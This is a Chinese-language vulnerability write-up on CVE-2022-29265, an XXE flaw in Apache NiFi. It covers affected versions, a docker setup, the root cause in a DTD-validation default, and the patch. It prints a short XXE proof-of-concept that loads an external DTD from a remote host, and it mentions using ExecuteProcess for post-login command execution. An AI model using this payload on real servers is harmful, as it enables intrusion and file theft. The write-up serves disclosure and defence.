 - [CVE-2022-29265 Apache NIFI XXE](#cve-2022-29265-apache-nifi-xxe)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [EvaluateXPath&EvaluateXQuery&ValidateXml](#evaluatexpathevaluatexqueryvalidatexml)
  - [漏洞复现](#漏洞复现)
  - [后台RCE(番外)](#后台rce番外)
  - [补丁](#补丁)
# CVE-2022-29265 Apache NIFI XXE
## 影响版本
Apache NiFi-Apache =0.0.1 &&<=1.16.0
## 环境搭建
docker run --name nifi -p 8443:8443 -p 8000:8000 -d -e NIFI_JVM_DEBUGGER=1 apache/nifi:1.16.0
## 原理分析
### EvaluateXPath&EvaluateXQuery&ValidateXml
NIFI支持处理XML数据,相关的几个处理器为EvaluateXPath,EvaluateXQuery,ValidateXml等,其实在创建解析器时设置了相关的安全属性的.  
![](2022-06-20-17-17-59.png)
按理来说不存在DTD,但在创建处理器时,却有一个属性可以开启支持验证DTD(默认True),以EvaluateXQuery处理器为例,导致默认开启的安全属性被覆盖造成DTD.
![](2022-06-20-17-19-05.png)  
![](2022-06-20-17-21-46.png)
## 漏洞复现
poc:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://192.168.62.1:8091/test.dtd"> %dtd;]
```
![](2022-06-20-17-22-58.png)
![](2022-06-20-17-23-24.png)
## 后台RCE(番外)
NIFI还自带了一个处理器可以直接执行系统命令为ExecuteProcess.
![](2022-06-20-17-24-58.png)  
![](2022-06-20-17-25-20.png)
## 补丁
![](2022-06-20-17-27-23.png)
其实主要是将默认值改为了false,避免了默认情况下被恶意数据利用.